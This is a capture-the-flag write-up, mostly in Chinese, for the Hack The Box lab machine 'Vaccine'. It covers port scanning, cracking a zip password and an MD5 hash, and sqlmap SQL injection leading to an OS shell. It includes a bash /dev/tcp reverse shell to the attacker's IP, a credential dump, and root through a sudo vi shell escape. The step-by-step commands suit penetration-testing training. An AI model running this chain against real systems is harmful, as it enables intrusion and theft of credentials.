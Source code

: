 # Vaccine
###### tags: `HTB_Starting Point`

1. Enumeration(枚舉)
* Port scan
```
sudo nmap -sC -sV -oA /nmap/Vaccine 10.10.10.46
```
-sC：equivalent to --script=default
-sV：Probe open ports to determine service/version info
-oA：Output in the three major formats at once
![](https://i.imgur.com/atSOpuf.png)

* Discover 80 Port
打開瀏覽器以及Burp suite似乎沒有發現什麼有趣的東西
![](https://i.imgur.com/syOfW6s.png)
* 嘗試一下dirsearch，看有沒有隱藏的子目錄
```
sudo python3 /opt/dirsearch/dirsearch.py -u http://10.10.10.46 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -t 50
```
![](https://i.imgur.com/NF8iwld.png)

* Discover 22 Port
在執行dirsearch時，要等待較久。可以嘗試使用我們在上一台靶機獲得的帳號資訊登入FTP(ftpuser : mc@F1l3ZilL4)
```
ftp 10.10.10.46
```
![](https://i.imgur.com/skzdeKT.png)
* 發現一個名為backup.zip的檔案，我們把它載到本機端
```
ls
get backup.zip
```
![](https://i.imgur.com/VkxEjjf.png)
* 嘗試解壓縮該檔案，但是很不幸的是需要密碼才能解壓縮該檔案
```
unzip backup.zip
```
![](https://i.imgur.com/0TK7SC2.png)
* 使用zip2john並獲取其哈希值。
```
sudo zip2john backup.zip > hash.txt
```
* 再使用john之前我們需要先解壓縮rockyou.txt這個字典檔
```
sudo gunzip /usr/share/wordlists/rockyou.txt.gz
```
* 使用john進行破解，希望能夠順利取得密碼
```
john hash.txt --fork=4 -w=/usr/share/wordlists/rockyou.txt
john --show hash.txt
```
![](https://i.imgur.com/Dn38oQn.png)
* 再解壓一次backup.zip(password=741852963)
```
unzip backup.zip
```
![](https://i.imgur.com/YRmn3CU.png)
* 在index.php中我們可以發現，有個amdin帳號，其密碼似乎用md5加密
```
cat index.php
```
![](https://i.imgur.com/Qx0OYHd.png)
* 使用[crackstation](https://crackstation.net/)，解密一下

![](https://i.imgur.com/2UDR6dB.png)
* admin : qwerty789
* 還記得剛剛web的登入介面嗎? 我們拿剛剛獲得的帳密試試看!

![](https://i.imgur.com/0Auk7bt.png)
* 最後，我們在此網站上只有搜索選項的功能。嘗試啟動Burp Suite並檢查正在處理的請求是什麼

![](https://i.imgur.com/TzAYFG9.png)
看來只有sql injection這條路了!
2. Foothold(立足點)
* [SQL injection ](https://gist.github.com/jkullick/03b98b1e44f03986c5d1fc69c092220d)
```
sudo sqlmap http://10.10.10.46/dashboard.php?search=* --cookie PHPSESSID=6r7ts035jpr9s4ugkh3q2tqvq2 --dbs --batch
```
![](https://i.imgur.com/0mKaoJh.png)
* 查看輸出時，我們可以看到有3個主要數據庫。您可以枚舉所有表並從數據庫中獲取數據。

![](https://i.imgur.com/tTVRau1.png)
* 獲得使用者shell
使用SQLMap的--os-shell 指令
枚舉所有Table
```
sqlmap http://10.10.10.46/dashboard.php?search=* --cookie PHPSESSID=6r7ts035jpr9s4ugkh3q2tqvq2 --os-shell --batch
```
![](https://i.imgur.com/eZ8VAmn.png)
* 升級shell
```
sudo nc -lvnp 4848
bash -c 'bash -i &>/dev/tcp/10.10.14.6/4848 <&1' &
```

![](https://i.imgur.com/YWJQ6kk.png)

![](https://i.imgur.com/ElVBJRQ.png)
* 我們需要枚舉數據庫並查找用戶和密碼
```
sudo sqlmap http://10.10.10.46/dashboard.php?search=* --cookie PHPSESSID=6r7ts035jpr9s4ugkh3q2tqvq2 --batch --passwords
```
![](https://i.imgur.com/Ype92J1.png)

* Get !!! postgres :P@s5w0rd!

![](https://i.imgur.com/nOntdbz.png)

3. 提權
* 使用SSH登入目標主機
```
su root
ssh postgres@10.10.10.46
```
![](https://i.imgur.com/ffh0Rfv.png)
* 用戶可以列出/etc/passwd但不能列出/etc/sudoers

![](https://i.imgur.com/A7rqbw8.png)

* 使用id查看
```
id
```
![](https://i.imgur.com/YX998FN.png)
* checking sudo -l reference to this [Tips!](https://unix.stackexchange.com/questions/87114/how-do-i-know-a-specified-users-permissions-on-linux-with-root-access)
```
sudo -l
```
![](https://i.imgur.com/0mqeIQQ.png)
```
sudo /bin/vi /etc/postgresql/11/main/pg_hba.conf
```
* 會打開圖下檔案，檔案上的內容完全沒有關係。因為我們使用VI提權漏洞，可以運行該漏洞利用程序。(按Ese，Ctrl+:，!/bin/bash)
![](https://i.imgur.com/myx4VWE.png)
* 提權成功!
```
whoami
cat /root/root.txt
```
![](https://i.imgur.com/xtvklF2.png)
